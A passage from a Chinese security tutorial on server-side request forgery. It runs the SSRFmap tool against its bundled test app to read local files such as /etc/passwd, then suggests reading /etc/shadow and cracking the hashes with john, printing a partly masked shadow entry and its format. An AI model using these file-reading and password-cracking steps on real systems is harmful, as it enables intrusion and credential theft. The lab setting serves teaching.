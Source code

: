 SSRFmap 是以 HTTP 请求数据作为文件输入，使用命令如下：

![Drawing 11.png](https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___PiASgPlAAEZ_x3Bz0k961.png)

图 12：SSRFmap

用其自带的测试用例，试用下：

```
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

其中 data/request.txt 内容如下：

```
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1
url=https%3A%2F%2Fwww.google.fr%
```

它会读取很多敏感文件，比如 /etc/passwd、/etc/hosts：

![Drawing 12.png](https://s0.lgstatic.com/i/image/M00/8D/98/CgqCHl___QOAXop9AAFeL92aWyk084.png)

图 13：利用 SSRFmap 读取本地文件

以上我们测试了，然后读取了敏感文件，然后好像就戛然而止了，读取之后就没有下文了。比如你想破解主机密码，就可以读取文件 /etc/shadow 以获得用户名和密码密文，然后就可以用 john 去破解密码：

```
$ sudo cat /etc/shadow
root:$6$TBFgG/seGvOG8nOp$LvZXXXXXXXENV2F6SEATplyE1QY33W2buEs10XLi.zQD8iwl.kCwsD.OMQ6WWkmUdu/9RPLHvLYSzMfcLj0:18446:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
……
```

加密的密码具有固定格式：

-   id：表示加密算法，1 代表 MD5，5 代表 SHA-256，6 代表 SHA-512。
    
-   salt：表示密码学中的 Salt，由系统随机生成 。
    
-   encrypted：表示密码的 hash。
    

冒号后面的数值是一些日期和密码修改间隔天数的信息，可以不用管，以上述示例中 root 账号为例：
